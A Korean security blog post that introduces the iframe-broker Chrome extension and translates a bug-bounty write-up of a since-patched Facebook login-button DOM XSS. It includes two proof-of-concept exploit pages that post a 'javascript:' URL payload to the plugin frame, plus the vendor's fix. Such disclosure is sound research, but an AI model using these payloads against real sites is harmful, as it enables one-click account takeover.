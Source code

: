 ```yaml
---
layout: post
title:  "iframe broker & Story of Facebook DOM XSS"
author: "jeong.su"
comments: true
tags: [web]
---
```


라온화이트햇 핵심연구팀 최정수


이 글은 [Vinoth Kumar](https://vinothkumar.me/)가 지난 4월 Facebook의 DOM XSS를 발견하여 제보하고 2만 달러의 포상금을 받은 [게시글](https://vinothkumar.me/20000-facebook-dom-xss/)을 번역한 내용이 포함되어 있습니다. 추가로 해당 취약점을 찾기 위해 [Vinoth Kumar](https://vinothkumar.me/)가 개발한 Iframe과 Cross Window communications 로그를 쉽게 확인 할 수 있는 크롬 익스텐션을 사용하고 어떻게 적용할 수 있을지 고민했습니다.

---

# iframe broker

---

iframe broker는  [Vinoth Kumar](https://vinothkumar.me/)가 Cross Window Communication 로그를 쉽게 확인하기 위해서 작성한 Chrome Extension 입니다.

해당 도구의 간단한 원리는 message를 후킹하여 보여주는 방식입니다

Javascript는 아래와 같이 간단한 스크립트로 후킹할 수 있습니다.

```jsx
var origin_parse = window.JSON.parse;

window.JSON.parse = function(arg){
/* Something Do It! */
/* ex) console.log(arg) */
return origin_parse(arg);
}
```

iframe broker의 사용법은 아래와 같습니다.

```bash
git clone https://github.com/vinothsparrow/iframe-broker
```

우선 git clone 명령어를 통해 특정 폴더에 iframe-broker를 받아줍니다.

![/assets/2020-05-01/iframe.png](/assets/2020-05-01/iframe.png)

Chrome Extension 추가를 위해 개발자 모드 옵션을 활성화 시켜줍니다. 해당 옵션을 활성화 시켜주게되면 `압축해제된 확장 프로그램을 로드합니다.` 버튼이 생기며 클릭을 통해 clone 해준 iframe-broker 폴더를 선택해줍니다.

![/assets/2020-05-01/iframe1.png](/assets/2020-05-01/iframe1.png)

Iframe Broker가 정상적으로 로드된 것을 확인 할 수 있습니다.

![/assets/2020-05-01/iframe2.png](/assets/2020-05-01/iframe2.png)

위와 같이 Chrome Extension을 통해 Domain간 통신하는 메세지를 쉽게 확인 할 수 있으며 클라이언트 사이드의 취약점을 찾는데 편리한 도구라는 생각이듭니다. 아래는 해당 Chrome Extension 개발자가 개발 후 Extension을 사용하면서 직접 취약점을 찾은 내용을 번역했습니다.

# Story of [$20000 Facebook DOM XSS](https://vinothkumar.me/20000-facebook-dom-xss/)

---

> window.postMessage() method를 사용하면 생성 된 페이지와 팝업 사이 또는 페이지와 페이지에 포함된 iframe 사이와 같은 Window 객체 간의 cross-origin 통신을 안전하게 할 수 있습니다. - [Mozilla postMessage Documentation](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)

postMessage 및 도메인 간 통신에 대해 더 알고 싶다면 아래 문서를 읽는 것이 좋습니다.

- [How cross window/frame communication happens in Javascript](https://javascript.info/cross-window-communication)
- [https://labs.detectify.com/2016/12/08/the-pitfalls-of-postmessage/](https://labs.detectify.com/2016/12/08/the-pitfalls-of-postmessage/)
- [https://ngailong.wordpress.com/2018/02/13/the-mystery-of-postmessage/](https://ngailong.wordpress.com/2018/02/13/the-mystery-of-postmessage/)

## Background

> postMessage를 통한 DOM XSS는 과소 평가 된 취약점이며 많은 버그바운티 헌터들에게는 눈에 띄지 않는 취약점입니다.

최근에 open dashboards 및 credentials 취약점을 찾는 대신 클라이언트 쪽 취약점을 찾기 시작했습니다.

([HackerOne에 리포트된 보고서](https://hackerone.com/vinothkumar)를 본다면 대부분 나의 리포트는 open dashboard 또는 Github credential leak 입니다.) 

처음에는 XSSI, JSONP 및 postMessage 관련 된 보안 문제를 찾기 시작했습니다. 그러나 XSSI 및 JSONP 취약점은 매우 드물며 [SameSite 쿠키](https://blog.reconless.com/samesite-by-default/)가 도입 된 이후 이 취약점은 사라질 것입니다. 따라서 postMessage 취약점을 살펴 보는 데 집중했습니다. postMessage 취약점은 주로 보안 연구원이 대부분 무시하지만 디버깅이 쉽고 방화벽을 우회 할 필요가 없습니다.

또한 디버깅을 더 쉽게하기 위해 페이지에서 발생하는 cross window communication의 view/log를 위한 [Chrome extension을 개발](https://github.com/vinothsparrow/iframe-broker) 했습니다.

일반적으로 웹 사이트는 위젯, 플러그인 또는 웹 SDK에서 iframe 통신을 사용합니다. 따라서 페이스북의 iframe 보안 문제를 찾으려고 시작하자마자 [https://developers.facebook.com](https://developers.facebook.com/)으로 이동하여 Facebook의 third-party 플러그인을 보기 시작했습니다.

그리고 cross-domain 통신을 위해서 `Facebook Login SDK for JavaScript`는 `v6.0/plugins/login_button.php`에서 proxy iframe을 만들며 proxy frame에서는 `Continue with Facebook` 버튼을 렌더링 해줍니다. 여기서 흥미로운 점은 javascript SDK가 proxy frame에 버튼의 클릭 URL이 포함 된 초기화 페이로드를 전송 한다는 것입니다.

로그인 SDK의 흐름은 아래와 같습니다.

```jsx
Third-Party website + (Facebook Login SDK for JavaScript)
```

↓

```jsx
<iframe src='https://www.facebook.com/v6.0/plugins/login_button.php?app_id=APP_ID&button_type=continue_with&channel=REDIRECT_URL&sdk=joey'>
</iframe>
```

↓

```jsx
// Facebook Javascript SDK는 초기화 payload를 iframe proxy에게 보냅니다.
iframe.contentWindow.postMessage({"xdArbiterHandleMessage":true,"message":{"method":"loginButtonStateInit","params":JSON.stringify({'call':{'id':'INT_ID',
'url':'https://www.facebook.com/v7.0/dialog/oauth?app_id=APP_ID&SOME_OTHER_PARAMS',
'size':{'width':10,'height':10},'dims':{'screenX':0,'screenY':23,'outerWidth':1680,'outerHeight':971'screenWidth':1680}}})},"origin":"APP_DOMAIN"}, '*')
```

↓

```jsx
// 유저가 Login with Facebook 버튼을 클릭하면 proxy iframe에서 특정 URL을 open 합니다.
window.open('https://www.facebook.com/v7.0/dialog/oauth?app_id=APP_ID')
```

↓

```jsx
// 팝업 윈도우는 accesstoken과 signed-request를 third-party website에게 postMessage를 사용하여 보냅니다.
window.opener.parent.postMessage(result, origin)
```

해당 초기화 payload를 주의 깊게 살펴보면 SDK가 Facebook 플러그인 iframe으로 전송합니다. url 파라미터는 i라는 변수에 저장 되며 버튼이 클릭 되어 이벤트가 트리거 될 때 아래 함수가 실행됩니다.

![/assets/2020-05-01/iframe3.png](/assets/2020-05-01/iframe3.png)

```jsx
i.url = i.url.replace(/cbt=\d+/, "cbt=" + a);
a = window.open(i.url, i.id, b("buildPopupFeatureString")(i));
```

위 Javascript 코드를 보았을 때 나는 "무언가 왔구나! 취약점이 내게 왔구나! 😉"를 느꼈습니다.

왜냐하면 Javascript 코드에는 URL/Scheme 유효성 검사가 존재하지 않았습니다. 따라서 아래와 같이 DOM XSS를 할 수 있었습니다.

`window.open('javascript:alert(document.domain)')`

그래서 우리가 `url:'javascript:alert(document.domain)'`와 같은 페이로드를 보내는 경우 받는 사람은 iframe이 [`https://www.facebook.com/v6.0/plugins/login_button.php`](https://www.facebook.com/v6.0/plugins/login_button.php)를 방문하고 사용자가 `Continue With Facebook`버튼을 클릭하게 되면  [facebook.com](http://facebook.com/) 도메인에서 `javascript:alert(document.domain)`와 같은 Javascript가 실행됩니다. 

## Exploiting the Iframe

위 보안 이슈를 통해 익스플로잇 하는 방법은 2가지가 있습니다.

### 1. Pop-up Method

```jsx
<script>   
   var opener = window.open("https://www.facebook.com/v6.0/plugins/login_button.php?app_id=APP_ID&auto_logout_link=false&button_type=continue_with&channel=REDIRECT_URL&container_width=734&locale=en_US&sdk=joey&size=large&use_continue_as=true","opener", "scrollbars=no,resizable=no,status=no,location=no,toolbar=no,menubar=no,width=500,height=1");
   
   setTimeout(function(){
        var message = {"xdArbiterHandleMessage":true,"message":{"method":"loginButtonStateInit","params":JSON.stringify({'call':{'id':'123','url':'javascript:alert(document.domain);','size':{'width':10,'height':10},'dims':{'screenX':0,'screenY':23,'outerWidth':1680,'outerHeight':971,'screenWidth':1680}}})},"origin":"ORIGIN"};
        opener.postMessage(message, '*');
    },'4000');
</script>
```

### 2. Iframe Method

`X-Frame-Options` 또는 CSP `frame-ancestors` 헤더가 누락 되었으므로 이 페이지는 공격자의 페이지에 쉽게 포함될 수 있습니다.

```jsx
<script>
function fbFrameLoaded() {
  var iframeEl = document.getElementById('fbframe');
  var message = {"xdArbiterHandleMessage":true,"message":{"method":"loginButtonStateInit","params":JSON.stringify({'call':{'id':'123','url':'javascript:alert(document.domain);','size':{'width':10,'height':10},'dims':{'screenX':0,'screenY':23,'outerWidth':1680,'outerHeight':971,'screenWidth':1680}}})},"origin":"ORIGIN"};
  iframeEl.contentWindow.postMessage(message, '*');
};
</script>
<iframe id="fbframe" src="https://www.facebook.com/v6.0/plugins/login_button.php?app_id=APP_ID&auto_logout_link=false&button_type=continue_with&channel=REDIRECT_URL&container_width=734&locale=en_US&sdk=joey&size=large&use_continue_as=true" onload="fbFrameLoaded(this)"></iframe>
```

## Fix

Facebook은 `url` 파라미터에 정규식 검사를 추가하여 domain과 schema가 존재하는지 확인하는 방법으로 패치했습니다.

```jsx
d = b("isFacebookURI")(new (g || (g = b("URI")))(c.call.url)),
j = c.call;
d || (j.url = b("XOAuthErrorController").getURIBuilder().setEnum("error_code", "PLATFORM__INVALID_URL").getURI().toString())
```

## Proof of Concept

[https://youtu.be/KAnuFy2F7QA](https://youtu.be/KAnuFy2F7QA)

## Impact

잘못된 post message 설정 때문에 누군가는 공격자의 웹세이트에 접속하고 페이스북으로 로그인하기 버튼을 클

릭함으로써 [facebook.com](http://facebook.com) 도메인에 XSS가 발생하고 **한 번의 클릭 만으로 계정을 탈취** 할 수 있습니다.